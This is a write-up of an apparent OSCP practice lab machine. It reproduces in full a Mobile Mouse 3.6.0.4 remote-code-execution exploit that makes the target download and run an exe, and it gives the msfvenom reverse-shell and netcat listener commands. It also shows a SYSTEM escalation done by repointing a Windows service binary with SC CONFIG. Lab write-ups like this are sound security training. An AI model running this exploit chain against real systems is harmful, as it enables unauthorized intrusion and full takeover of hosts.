







# PASCHA

Writeup for standalone machine hosted at `192.168.xxx.155`.

## Enumeration

Output from Nmap scan [run earlier](./#nmap):


```
Nmap scan report for pascha.oscp.exam (192.168.202.155)
Host is up (0.053s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
9099/tcp  open  unknown
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest: 
|     HTTP/1.0 200 OK 
|     Server: Mobile Mouse Server 
|     Content-Type: text/html 
|     Content-Length: 321
|_    <HTML><HEAD><TITLE>Success!</TITLE><meta name="viewport" content="width=device-width,user-scalable=no" /></HEAD><BODY BGCOLOR=#000000><br><br><p style="font:12pt arial,geneva,sans-serif; text-align:center; color:green; font-weight:bold;" >The server running on "OSCP" was able to receive your request.</p></BODY></HTML>
9999/tcp  open  abyss?
35913/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9099-TCP:V=7.94SVN%I=7%D=9/8%Time=66DE06C1%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,1A2,"HTTP/1\.0\x20200\x20OK\x20\r\nServer:\x20Mobile\x20Mous
SF:e\x20Server\x20\r\nContent-Type:\x20text/html\x20\r\nContent-Length:\x2
SF:0321\r\n\r\n<HTML><HEAD><TITLE>Success!</TITLE><meta\x20name=\"viewport
SF:\"\x20content=\"width=device-width,user-scalable=no\"\x20/></HEAD><BODY
SF:\x20BGCOLOR=#000000><br><br><p\x20style=\"font:12pt\x20arial,geneva,san
SF:s-serif;\x20text-align:center;\x20color:green;\x20font-weight:bold;\"\x
SF:20>The\x20server\x20running\x20on\x20\"OSCP\"\x20was\x20able\x20to\x20r
SF:eceive\x20your\x20request\.</p></BODY></HTML>\r\n")%r(FourOhFourRequest
SF:,1A2,"HTTP/1\.0\x20200\x20OK\x20\r\nServer:\x20Mobile\x20Mouse\x20Serve
SF:r\x20\r\nContent-Type:\x20text/html\x20\r\nContent-Length:\x20321\r\n\r
SF:\n<HTML><HEAD><TITLE>Success!</TITLE><meta\x20name=\"viewport\"\x20cont
SF:ent=\"width=device-width,user-scalable=no\"\x20/></HEAD><BODY\x20BGCOLO
SF:R=#000000><br><br><p\x20style=\"font:12pt\x20arial,geneva,sans-serif;\x
SF:20text-align:center;\x20color:green;\x20font-weight:bold;\"\x20>The\x20
SF:server\x20running\x20on\x20\"OSCP\"\x20was\x20able\x20to\x20receive\x20
SF:your\x20request\.</p></BODY></HTML>\r\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows XP SP3 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


### Port 9099

I have noticed a pattern with the standalone machines where one of them has some random port open and Googling "port x CVE" or "port x RCE" will turn up something that works. I decided to try this first with "[port 9099 RCE](https://www.google.com/search?q=port+9099+rce)" and sure enough, and [EDB 51010](https://www.exploit-db.com/exploits/51010).

## Foothold

### EDB 51010

I copy this to my directory and examine it. The code seems to automatically submit 2 commands via an RCE in remote mouse. The first command is a curl command which downloads a payload (`.exe`). The second just launches the downloaded payload. I made some modifications at line 41 to correct the download string for my particular web server configuration: switched to HTTPS with no certificate check (`-k`) and added the `/tmp/` directory to the path to allow me to host it in the `tmp` directory of my existing Apache server. Once these modifications were complete the exploit looked like this:


```python
# Exploit Title: Mobile Mouse 3.6.0.4 - Remote Code Execution (RCE)
# Date: Aug 09, 2022
# Exploit Author: Chokri Hammedi
# Vendor Homepage: https://mobilemouse.com/
# Software Link: https://www.mobilemouse.com/downloads/setup.exe
# Version: 3.6.0.4
# Tested on: Windows 10 Enterprise LTSC Build 17763

#!/usr/bin/env python3

import socket
from time import sleep
import argparse

help = " Mobile Mouse 3.6.0.4 Remote Code Execution "
parser = argparse.ArgumentParser(description=help)
parser.add_argument("--target", help="Target IP", required=True)
parser.add_argument("--file", help="File name to Upload")
parser.add_argument("--lhost", help="Your local IP", default="127.0.0.1")

args = parser.parse_args()

host = args.target
command_shell = args.file
lhost = args.lhost
port = 9099 # Default Port

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

CONN = bytearray.fromhex("434F4E4E4543541E1E63686F6B726968616D6D6564691E6950686F6E651E321E321E04")
s.send(CONN)
run = s.recv(54)

RUN = bytearray.fromhex("4b45591e3131341e721e4f505404")
s.send(RUN)
run = s.recv(54)

sleep(0.5)

download_string= f'curl.exe -k https://{lhost}/tmp/{command_shell} -o c:\Windows\Temp\{command_shell}'.encode('utf-8')
hex_shell = download_string.hex()
SHELL = bytearray.fromhex("4B45591E3130301E" + hex_shell + "1E04" +
"4b45591e2d311e454e5445521e04")
s.send(SHELL)
shell = s.recv(96)

print ("Executing The Command Shell...")

sleep(1.2)
RUN2 = bytearray.fromhex("4b45591e3131341e721e4f505404")
s.send(RUN2)
run2 = s.recv(54)

shell_string= f"c:\Windows\Temp\{command_shell}".encode('utf-8')
hex_run = shell_string.hex()
RUN3 = bytearray.fromhex("4B45591E3130301E" + hex_run + "1E04" +
"4b45591e2d311e454e5445521e04")
s.send(RUN3)
run3 = s.recv(96)

print (" Take The Rose")

sleep(10)
s.close()
```


I generate a payload with `msfvenom`:


```bash
msfvenom -a x64 --platform windows -p windows/x64/shell_reverse_tcp LHOST=192.168.45.157 LPORT=135 -f exe -o rs.exe
```


Once generated, I copy it to my apache server and start a listener:

```bash
rlwrap nc -lvnp 135
```

I then run the exploit and obtain a reverse shell:


```bash
python3 51010.py --target pascha.oscp.exam --file rs.exe --lhost 192.168.45.157
```


<figure><figcaption><p>Obtaining a reverse shell with the exploit</p></figcaption></figure>

User access achieved as `tim`.

## Privilege Escalation

The first step I take is downloading PEAS and launching it:


```
START /b peas.exe -a quiet log=tim.peas
```


While this is running I start looking around manually.

### Manual Enumeration

#### EDB 51410

As I start looking around I find a `MilleGPG` directory inside `C:\Program Files`. Not knowing what this is I Google it and find [EDB 51410](https://www.exploit-db.com/exploits/51410). This is a local privilege escalation that is caused by insecure file permissions:

<figure><figcaption><p>Writeup from EDB</p></figcaption></figure>

The writeup implies that I can overwrite some critical binaries and hopefully escalate privileges that way. I spent awhile messing with this but I was unable to write to the member of this service family that was auto-starting:

<div>

<figure><figcaption><p>Auto-start service</p></figcaption></figure>

 

<figure><figcaption><p>icacls reveals only M</p></figcaption></figure>

</div>

There is also a MariaDB executable mentioned in the EDB writeup but I did not have access there either. I did manage to overwrite the main GUI binary at `C:\Program Files\MilleGPG5\MilleGPG5.exe` but I was unable to find a way to launch that binary as `Administrator`.

### Service Binary Change

At this point PEAS has finished so I open it up and in the output find another mention of this service saying I have full access to it:

<figure><figcaption><p>Mention of the service again</p></figcaption></figure>

While I was messing around with EDB 51410 [above](pascha.md#edb-51410) I had tried stopping the GPGOrchestrator service to see if the service not running would allow me to overwrite its binary. It did not so I moved on. Now this has me wondering if I could just point the service at a different binary. I start by examining the service:

```
SC QC GPGOrchestrator
```

I do not learn much from this. I was mostly testing if I could use `SC`.

During the course of my previous struggles I overwrote the real `C:\Program Files\MilleGPG5\MilleGPG5.exe` with a reverse shell that would reach back to my machine at port 139. I had confirmed the port was open and the shell worked. Now it is just a matter of getting it started as a service. I find [this SO post](https://stackoverflow.com/questions/7190480/modifying-the-path-to-executable-of-a-windows-service) which discusses resetting the path with `SC CONFIG`. With the command below I pointed the `GPGOrchestrator` service at my reverse shell binary (the overwritten `MilleGPG5.exe`):

```
SC CONFIG GPGOrchestrator binPath= "\"C:\Program Files\MilleGPG5\MilleGPG5.exe\""
```

* Note the use of the escape character in the quotes of the service binary path (`\"`)

<figure><figcaption><p>Resetting the binary for the service</p></figcaption></figure>

With this having succeeded I could restart the machine but that takes awhile. Instead I just restart the service and launch my shell:

<figure><figcaption><p>SYSTEM access achieved</p></figcaption></figure>

`SYSTEM` access achieved. There is no post-exploit required for standalone exam machines.
